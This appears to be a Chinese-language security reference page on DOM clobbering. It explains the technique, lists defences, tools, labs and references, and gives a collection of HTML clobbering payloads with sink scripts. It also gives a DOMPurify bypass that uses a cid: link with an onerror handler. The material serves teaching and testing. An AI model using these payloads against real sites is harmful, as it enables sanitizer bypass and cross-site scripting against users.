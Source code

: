 # DOM 污染(DOM Clobbering)

> DOM 污染(DOM Clobbering)是一种前端安全漏洞，攻击者通过向页面中注入具有特定ID或name属性的HTML元素，从而覆盖或"污染"JavaScript全局命名空间中的变量。这种技术利用了浏览器将DOM元素自动暴露为全局变量的特性，可能导致应用程序逻辑被篡改、安全机制被绕过，甚至引发跨站脚本(XSS)等更严重的安全问题。

## 什么是DOM Clobbering？

DOM Clobbering（DOM污染）是一种攻击技术，它利用了浏览器将DOM元素的ID和name属性自动暴露为全局变量的特性。当HTML文档中存在具有特定ID或name属性的元素时，浏览器会将这些元素作为全局变量提供给JavaScript环境。攻击者可以利用这一特性，通过注入恶意HTML来覆盖或"污染"现有的JavaScript变量或函数，从而改变应用程序的预期行为。

### 基本工作原理

1. **全局命名空间污染**：浏览器会自动将带有ID或name属性的HTML元素添加到全局`window`对象中。
2. **变量覆盖**：如果注入的HTML元素的ID或name与现有的JavaScript变量或函数名相同，它会覆盖原有的值。
3. **类型转换**：当DOM元素被当作JavaScript对象使用时，会进行隐式类型转换，可能导致意外的行为。
4. **安全边界突破**：通过精心构造的DOM元素，攻击者可能绕过内容安全策略(CSP)或其他安全机制。

### 安全影响

- **XSS攻击**：可能导致跨站脚本攻击，特别是与不安全的动态脚本执行结合时。
- **逻辑漏洞**：可能改变应用程序的业务逻辑，导致权限提升或其他非预期行为。
- **CSP绕过**：某些情况下可用于绕过内容安全策略(CSP)的限制。
- **数据泄露**：可能被用来泄露敏感信息或执行未授权的操作。

### 防御措施

1. 使用`Content-Security-Policy`头部的`'unsafe-hashes'`和`'strict-dynamic'`指令
2. 避免将不受信任的数据直接写入DOM
3. 使用`textContent`而不是`innerHTML`来插入内容
4. 实施严格的输入验证和输出编码
5. 使用现代框架的内置XSS防护机制
6. 考虑使用Trusted Types API来防止基于DOM的XSS

## 目录

- [工具](#工具)
- [方法学](#方法学)
- [实验](#实验)
- [技巧](#技巧)
- [参考资料](#参考资料)

## 工具

- [SoheilKhodayari/DOMClobbering](https://domclob.xyz/domc_markups/list) - 移动和桌面网页浏览器的全面DOM污染Payload列表
- [yeswehack/Dom-Explorer](https://github.com/yeswehack/Dom-Explorer) - 一个用于测试各种HTML解析器和清理器的基于Web的工具
- [yeswehack/Dom-Explorer Live](https://yeswehack.github.io/Dom-Explorer/dom-explorer#eyJpbnB1dCI6IiIsInBpcGVsaW5lcyI6W3siaWQiOiJ0ZGpvZjYwNSIsIm5hbWUiOiJEb20gVHJlZSIsInBpcGVzIjpbeyJuYW1lIjoiRG9tUGFyc2VyIiwiaWQiOiJhYjU1anN2YyIsImhpZGUiOmZhbHNlLCJza2lwIjpmYWxzZSwib3B0cyI6eyJ0eXBlIjoidGV4dC9odG1sIiwic2VsZWN0b3IiOiJib2R5Iiwib3V0cHV0IjoiaW5uZXJIVE1MIiwiYWRkRG9jdHlwZSI6dHJ1ZX19XX1dfQ==) - 揭示浏览器如何解析HTML并发现变异的XSS漏洞

## 方法学

利用需要页面中存在任何类型的`HTML注入`。

- 污染 `x.y.value`

    ```html
    // Payload
    <form id=x><output id=y>我被污染了</output>

    // 接收点
    <script>alert(x.y.value);</script>
    ```

- 使用ID和name属性形成DOM集合来污染`x.y`

    ```html
    // Payload
    <a id=x><a id=x name=y href="被污染的值">

    // 接收点
    <script>alert(x.y)</script>
    ```

- 污染 `x.y.z` - 3级深度

    ```html
    // Payload
    <form id=x name=y><input id=z></form>
    <form id=x></form>

    // 接收点
    <script>alert(x.y.z)</script>
    ```

- 污染 `a.b.c.d` - 超过3级

    ```html
    // Payload
    <iframe name=a srcdoc="
    <iframe srcdoc='<a id=c name=d href=cid:被污染的值>test</a><a id=c>' name=b>"></iframe>
    <style>@import '//portswigger.net';</style>

    // 接收点
    <script>alert(a.b.c.d)</script>
    ```

- 污染 `forEach` (仅限Chrome)

    ```html
    // Payload
    <form id=x>
    <input id=y name=z>
    <input id=y>
    </form>

    // 接收点
    <script>x.y.forEach(element=>alert(element))</script>
    ```

- 使用具有相同`id`属性的`<html>`或`<body>`标签污染`document.getElementById()`

    ```html
    // Payloads
    <html id="cdnDomain">被污染的值</html>
    <svg><body id=cdnDomain>被污染的值</body></svg>

    // 接收点
    <script>
    alert(document.getElementById('cdnDomain').innerText);//被污染的值
    </script>
    ```

- 污染 `x.username`

    ```html
    // Payload
    <a id=x href="ftp:被污染的用户名:被污染的密码@a">

    // 接收点
    <script>
    alert(x.username)//被污染的用户名
    alert(x.password)//被污染的密码
    </script>
    ```

- 污染 (仅限Firefox)

    ```html
    // Payload
    <base href=a:abc><a id=x href="Firefox<>">

    // 接收点
    <script>
    alert(x)//Firefox<>
    </script>
    ```

- 污染 (仅限Chrome)

    ```html
    // Payload
    <base href="a://被污染的值<>"><a id=x name=x><a id=x name=xyz href=123>

    // 接收点
    <script>
    alert(x.xyz)//a://被污染的值<>
    </script>
    ```

## 技巧

- DomPurify允许`cid:`协议，它不会编码双引号(`"`): 
  ```html
  <a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
  ```

## 实验

- [PortSwigger - 利用DOM污染实现XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
- [PortSwigger - 污染DOM属性以绕过HTML过滤器](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
- [PortSwigger - 受CSP保护的DOM污染测试用例](https://portswigger-labs.net/dom-invader/testcases/augmented-dom-script-dom-clobbering-csp/)

## 参考资料

- [通过DOM污染绕过CSP - Gareth Heyes - 2023年6月5日](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
- [DOM污染 - HackTricks - 2023年1月27日](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)
- [DOM污染 - PortSwigger - 2020年9月25日](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [DOM污染反击 - Gareth Heyes - 2020年2月6日](https://portswigger.net/research/dom-clobbering-strikes-back)
- [通过DOM污染劫持Service Workers - Gareth Heyes - 2022年11月29日](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
